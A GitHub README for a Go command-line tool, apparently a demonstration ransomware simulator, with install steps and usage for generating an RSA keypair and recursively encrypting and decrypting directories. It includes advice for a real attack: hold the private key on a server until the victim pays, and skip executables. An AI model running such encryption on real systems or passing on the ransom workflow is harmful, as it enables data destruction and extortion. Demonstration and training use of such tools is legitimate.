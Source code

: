 # ransomware
A simple demonstration tool to simulate a ransomware attack

## ⚠️ Disclaimer ⚠️
This software is made just for demonstration purposes. If you want to run it locally for tests, take care of what directories you decide to encrypt. The software is distributed in MIT license. Its use is free, however the author doesn't take responsibility for any illegal use of the code by 3rd parties.

## Setup

To setup the tool just run 

```bash
$ go install github.com/marmos91/ransomware@latest
```

## Why 
In order to demonstrate the way ransomware works quickly and in a protected environment, **it is very useful to be able to restrict its operation within a directory**. This way the process takes much less time (the entire operating system does not need to be encrypted). Writing this tool in Go, also **allows the tool to be developed even in a non-Windows environment** (by far the most supported operating system by ransomware available online)

## How to use it
This tool is used to simulate a ransomware attack. With it you can perform the following actions:

1. After setting up a key, recursively encrypt the contents of a specified path 
2. After asking for a key, recursively decrypt the contents of a specified path

## Help

```bash
NAME:
   ransomware - A simple demonstration tool to simulate a ransomware attack

USAGE:
   ransomware [global options] command [command options] [arguments...]

VERSION:
   v1.0.0

COMMANDS:
   create-keys, c  Generates a new random keypair and saves it to a file
   encrypt, e      Encrypts a directory
   decrypt, d      Decrypts a directory
   help, h         Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --silent       Runs the tool in silent mode (no logs) (default: false)
   --help, -h     show help (default: false)
   --version, -v  print the version (default: false)
```

## Create a keypair

First thing you need to do is to create a keypair. You can do it by running

```bash
$ ransomware create-keys --path ~/Desktop
```
If you don't specifiy a path it will create the keys in `pwd`.
This command will create two files:

- pub.pem
- priv.pem

In a real scenario you need to put the `private key` in a server and provide it only after the victim payed the ransom. The public key needs instead to be embedded in the ransomware to encrypt the folders

## Encrypt a directory
With this command you can recursively encrypt every file inside a specified directory. 

```bash
NAME:
   ransomware encrypt - Encrypts a directory

USAGE:
   ransomware encrypt [command options] [arguments...]

OPTIONS:
   --path value, -p value  Runs the tool on a directory
   --publicKey value       Loads the provided RSA public key in PEM format
   --extBlacklist value    the extension to blacklist (default: ".enc")
   --extWhitelist value    the extension to whitelist
   --skipHidden            skips hidden folders (default: false)
   --dryRun                encrypts files without deleting originals (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --help, -h              show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Documents
```
This command provides the following options:

- `path`: the path to encrypt. This is required
- `publicKey`: the path of the publicKey PEM file created by the `create-keys` command
- `extBlacklist`: if provided, a comma-separated list of extension to skip. **This feature is useful, to exclude executable like `.exe` files**
- `extWhitelist`: if provided, a comma-separated list of extension to whitelist
- `skipHidden`: if set, skips hidden folders
- `dryRun`: just creates encrypted files without deleting originals
- `encSuffix`: defines a custom extension to set on encrypted files (default `.enc`)

### Examples
Just encrypt gif files on Desktop
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --dryRun --extWhitelist .gif
```

Encrypt everything except `.csv` and `.pdf` files
```bash
$ ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --dryRun --extBlacklist .csv,.pdf
```

## Decrypt a directory
With this command you can decrypt a folder back to its original form after a victim payed the ransom

```bash
NAME:
   ransomware decrypt - Decrypts a directory

USAGE:
   ransomware decrypt [command options] [arguments...]

OPTIONS:
   --path value, -c value  Runs the tool on a directory
   --privateKey value      Loads the provided RSA private key in PEM format
   --dryRun                decrypts files without deleting encrypted versions (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --help, -h              show help (default: false)
```
For example if you want to run the tool on the `~/Documents` folder run:

```bash
$ ransomware decrypt --privateKey ./priv.pem --path ~/Desktop/toEncrypt
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `privateKey`: the path of the privateKey PEM file created by the `create-keys` command
- `dryRun`: just creates decrypted files without deleting encrypted version
- `encSuffix`: defines a custom extension for encrypted files (default `.enc`)


## How it works

Coming soon...